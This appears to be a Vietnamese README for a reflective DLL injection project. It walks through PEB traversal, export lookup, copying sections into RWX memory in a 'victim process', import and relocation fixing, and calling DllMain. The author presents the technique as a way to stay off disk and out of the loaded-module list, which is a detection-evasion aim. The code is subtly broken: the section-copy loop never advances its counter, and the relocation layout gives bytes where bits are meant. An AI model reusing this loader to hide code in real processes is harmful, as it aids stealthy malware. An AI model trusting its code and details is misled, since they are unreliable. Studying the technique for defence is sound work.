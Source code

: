 # ReflectiveDLL
Repository này tạo một thư viện động(DLL) Reflective và loader cho nó.
# Tạo Reflective Dynamic link library
Tiến hành tạo một Reflective DLL. Trong DLL này, một hàm DllMain được thiết lập để xử lý các tác vụ chính của thư viện. Ở đây, để cho đơn giản DLL sẽ chỉ hiển thị một MessageBox đơn giản báo hiệu tiến trình nạn nhân đã bị chèn mã.
```C
BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        MessageBoxA(NULL, "Process nay da bi inject!", "Injected Notice", MB_OK);
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```
## ReflectiveLoader
Đây là một hàm đặc thù với cơ chế tự tải chính bản thân nó thay vì sử dụng các API của Windows như LoadLibrary từ kernel32. Làm như vậy để DLL sẽ không cần phải có mặt trên đĩa, do LoadLibrary nhận tham số là
đường dẫn tới DLL trên đĩa. Đồng thời cơ chế tự tải này giúp DLL không có mặt trong danh sách module được tải bời tiến trình, nên sẽ càng khó để phát hiện hơn cách tải sử dụng LoadLibrary thông thường.
```C
extern "C" __declspec(dllexport) void ReflectiveLoader()
```
Trong đó, khai báo extern "C" để complier biết và sử dụng cách đặt tên kiểu 'C' cho hàm, giúp tên của hàm không bị biến đổi "name mangling" (sự biến đổi nhằm hỗ trợ tính đa hình), vẫn giữ được tên gốc.
Cách làm này giúp hàm có thể được gọi dễ dàng để liên kết với module khác, bất kể chương trình viết bằng ngôn ngữ gì.

__declspec(dllexport) là directive để khai báo hàm được xuất ra từ DLL.

Trong ReflectiveLoader(), sẽ lần lượt thiết lập các cơ chế tự tìm và tải bản thân trong bộ nhớ tiến trình nạn nhân.
### Quá trình tự xác định vị trí.
Có thể dùng 'caller' như Stephen Fewer để DLL tự chủ động hơn thay vì phụ thuộc vào injector. Ở đây tôi sẽ dùng Injector để truyền địa chỉ DLL được chèn trong bộ nhớ thay vì để DLL tự tải. 
### Quá trình lấy địa chỉ các hàm cần thiết
Trong quá trình thực hiện ReflectiveLoader, không thể tin tưởng vào cơ chế tự động của linker để thực hiện gọi các hàm API cần cho việc ánh xạ image DLL, như GetProcAddress hay VirtualAlloc. Nguyên nhân do DLL được tải từ bộ nhớ chứ không thông qua trình tải chuẩn của Windows - dẫn tới bảng nhập IAT của module có thể không được thiết lập chuẩn, cần xử lý thủ công để lấy địa chỉ các API.
Tìm Base Address của kernel32.dll
Cần truy xuất Process Environment Block (PEB) của tiến trình. Mỗi tiến trình trong Windows có một cấu trúc PEB chứa thông tin về module đã nạp. 'kernel32.dll' luôn là một trong những module nạp đầu tiên, nên ReflectiveLoader có thể duyệt danh sách này để tìm địa chỉ của nó.
```C
typedef struct _PEB_LDR_DATA //, 7 elements, 0x28 bytes
{
	DWORD dwLength;
	DWORD dwInitialized;
	LPVOID lpSsHandle;
	LIST_ENTRY InLoadOrderModuleList;
	LIST_ENTRY InMemoryOrderModuleList;
	LIST_ENTRY InInitializationOrderModuleList;
	LPVOID lpEntryInProgress;
} PEB_LDR_DATA, * PPEB_LDR_DATA;
```
Dùng PEB->Ldr->InMemoryOrderModuleList để tìm kernel32.dll và lấy địa chỉ.
InMemoryOrderModuleList là một con trỏ trỏ tới điểm bắt đầu của link list - danh sách liên kết - các con trỏ đi tới mô tả các module được nạp vào chương trình (LDR_DATA_TABLE_ENTRY).
```C
typedef struct _LDR_DATA_TABLE_ENTRY
{
	//LIST_ENTRY InLoadOrderLinks; // As we search from PPEB_LDR_DATA->InMemoryOrderModuleList we dont use the first entry.
	LIST_ENTRY InMemoryOrderModuleList;
	LIST_ENTRY InInitializationOrderModuleList;
	PVOID DllBase;
	PVOID EntryPoint;
	ULONG SizeOfImage;
	UNICODE_STR FullDllName;
	UNICODE_STR BaseDllName;
	ULONG Flags;
	SHORT LoadCount;
	SHORT TlsIndex;
	LIST_ENTRY HashTableEntry;
	ULONG TimeDateStamp;
} LDR_DATA_TABLE_ENTRY, * PLDR_DATA_TABLE_ENTRY;
```
Với cấu trúc này, kiểm tra xem BaseDllName.Buffer có phải tên thư viện cần tìm, và nếu đúng thì lấy module base = DllBase. Như vậy đã lấy được địa chỉ vùng nhớ cấp phát cho dll đó nằm trong chương trình. Duyệt qua vùng bộ nhớ PE này và đọc Export directory:
```C
typedef struct _IMAGE_EXPORT_DIRECTORY {
    DWORD Characteristics;
    DWORD TimeDateStamp;
    WORD  MajorVersion;
    WORD  MinorVersion;
    DWORD Name;
    DWORD Base;
    DWORD NumberOfFunctions;
    DWORD NumberOfNames;
    DWORD AddressOfFunctions;     // RVA from base of image
    DWORD AddressOfNames;         // RVA from base of image
    DWORD AddressOfNameOrdinals;  // RVA from base of image
} IMAGE_EXPORT_DIRECTORY;
```
* exportDir = module base + export RVA. exportDir sẽ trỏ tới vùng nhớ chứa struct IMAGE_EXPORT_DIRECTORY như trình bày ở trên. Cấu trúc này mô tả các hàm xuất của module, cho biết thông tin về các hàm.
* Duyệt qua các tên hàm được trỏ trong list địa chỉ AddressOfNames, lấy giá trị ordinal và thu về địa chỉ tương ứng ordinal đó.
* Trong mục này, ta tìm và lấy 2 thư viện "kernel32.dll" (cho các hàm GetProcAddress, VirtualAlloc, LoadLibraryA) và "ntdll.dll" (cho hàm NtFlushInstructionCache).
### Tải DLL từ dạng thô vào 1 vùng khác dưới dạng Image
Sử dụng VirtualAlloc để cấp phát bộ nhớ trong tiến trình nạn nhân.
Copy nội dung header sang vị trí mới.
Copy các section sang vị trí mới, đã căn chỉnh RVA để hoạt động ổn định.
```C
//2. Tai DLL tu dang tho thanh image tai 1 vung nho khac trong memory.
    ULONG_PTR uHeader = uLibAddress + ((PIMAGE_DOS_HEADER)uLibAddress)->e_lfanew;
    // allocate memory for DLL to be loaded. Address is arbitrary, all memory is zeros and RWX.
    uBaseAddress = (ULONG_PTR)pVirtualAlloc(NULL, ((PIMAGE_NT_HEADERS)uHeader)->OptionalHeader.SizeOfImage, MEM_RESERVE|MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    // Copy the header.
    ULONG_PTR uValueA = ((PIMAGE_NT_HEADERS)uHeader)->OptionalHeader.SizeOfHeaders;
    BYTE* uSrc = (BYTE*)uLibAddress;
    BYTE* uDes = (BYTE*)uBaseAddress;
    while (uValueA)
    {
        *uDes = *uSrc;
        uDes++;
        uSrc++;
        uValueA--;
    }
    //3. Load sections.
    // Vi tri section dau tien nam sau header: firstSec = &OptionalHeader + sizeofoptionalheader
    //uValueA is VA of firstsection
    uValueA = (ULONG_PTR)(&((PIMAGE_NT_HEADERS)uHeader)->OptionalHeader) + ((PIMAGE_NT_HEADERS)uHeader)->FileHeader.SizeOfOptionalHeader;
    ULONG_PTR uValueB = ((PIMAGE_NT_HEADERS)uHeader)->FileHeader.NumberOfSections;
    while (uValueB)
    {
        // uSrc is the offset of this section data
        uSrc = (BYTE*)(uLibAddress + ((PIMAGE_SECTION_HEADER)uValueA)->PointerToRawData);
        // uDes is the VA of this section image
        uDes = (BYTE*)(uBaseAddress + ((PIMAGE_SECTION_HEADER)uValueA)->VirtualAddress);
        // Copy each byte of source to destination
        for (SIZE_T i = 0; i < ((PIMAGE_SECTION_HEADER)uValueA)->SizeOfRawData; i++)
        {
            *uDes = *uSrc;
            uDes++;
            uSrc++;
        }
        // Get the next sextion
        uValueA += sizeof(IMAGE_SECTION_HEADER);
    }
```
### Xử lý import table
Cần tải các hàm và thư viện vào chương trình để có thể chạy bình thường. Để làm điều này cần xử lý import table, thông qua import directory trong Optional Header.
Để truy cập, ta cần tính địa chỉ vùng import table = image Base + RVA import directory.
Bên trong vùng nhớ được trỏ bởi địa chỉ này là import table. Trong Import Table bao gồm chuỗi các cấu trúc IMAGE_IMPORT_DESCRIPTOR như sau:
```C
typedef struct _IMAGE_IMPORT_DESCRIPTOR {
    union {
        DWORD   Characteristics;
        DWORD   OriginalFirstThunk;
    } DUMMYUNIONNAME;
    DWORD   TimeDateStamp;
    DWORD   ForwarderChain;
    DWORD   Name;
    DWORD   FirstThunk;
} IMAGE_IMPORT_DESCRIPTOR;
```
Sử dụng con trỏ duyệt qua toàn bộ các import descriptor:
- LoadLibraryA để nạp module với 'Name' tương ứng.
- Lấy địa chỉ vùng Import Address Table - 'FirstThunk'.
```C
  typedef struct _IMAGE_THUNK_DATA {
    union {
        uint32_t* Function;             // address of imported function
        uint32_t  Ordinal;              // ordinal value of function
        PIMAGE_IMPORT_BY_NAME AddressOfData;        // RVA of imported name
        DWORD ForwarderStringl              // RVA to forwarder string
    } u1;
} IMAGE_THUNK_DATA, *PIMAGE_THUNK_DATA;
```
- Tiến hành bước lấy địa chỉ GetProcAddress bằng Ordinal hoặc bằng tên, với địa chỉ string tên nằm tại imageBase + AddressOfData.

### Xử lý relocation
Trong image của PE file, địa chỉ các phần tử đều biểu diễn bằng RVA tương đối so với imageBase. Mỗi PE file thường có một địa chỉ imageBase native ưu tiên tải vào. Tuy nhiên do tải reflective injection sẽ cấp phát vùng nhớ ngẫu nhiên, không nằm trong native address nên cần xử lý bảng relocation để có thể hoạt động ổn định.
Trước hết cần đọc Relocation Table tương tự Import Table, lấy địa chỉ vùng này. Vùng này có cấu trúc gồm các khối Relocation Block nối tiếp nhau. Mỗi khối bắt đầu với struct IMAGE_BASE_RELOCATION kích thước 8 byte, chứa thông tin về kích thước khối và địa chỉ RVA của Trang tương ứng với khối này. Tiếp nối sau đó là các struct 2 byte, với 4 byte chỉ type Reloc và 12 byte offset của giá trị Reloc so với địa chỉ của Trang.
Viết lại toàn bộ giá trị reloc với giá trị Delta Image = địa chỉ Image thật sự trong bộ nhớ - địa chỉ image native.

### Gọi Entry Point của DLL
Sau khi duyệt qua, ta có gọi entry point là địa chỉ hàm DLLMAIN + imageBase để chạy nội dung chính của DLL.
